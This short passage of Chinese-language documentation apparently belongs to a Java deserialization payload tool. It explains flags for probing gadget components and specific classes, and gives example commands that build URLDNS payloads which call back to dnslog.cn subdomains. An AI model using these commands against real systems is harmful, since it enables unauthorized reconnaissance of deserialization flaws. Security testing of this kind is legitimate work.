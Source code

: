 + `-dp` 指定组件，`all` 探测所有

eg. `-g URLDNS -host 7ox24q.dnslog.cn -dp "all"`

![image-20240423140746943](attachments/image-20240423140746943.png)

![image-20240423141545979](attachments/image-20240423141545979.png)

## 类探测

+ `-cn` 指定探测的全限定类名
+ `-ds` 指定对应的子域名



eg. `-g URLDNS -host 4hu16z.dnslog.cn -cn "com.ppp.DNSTest" -ds "pppyso"`

![image-20240423115614913](attachments/image-20240423115614913.png)
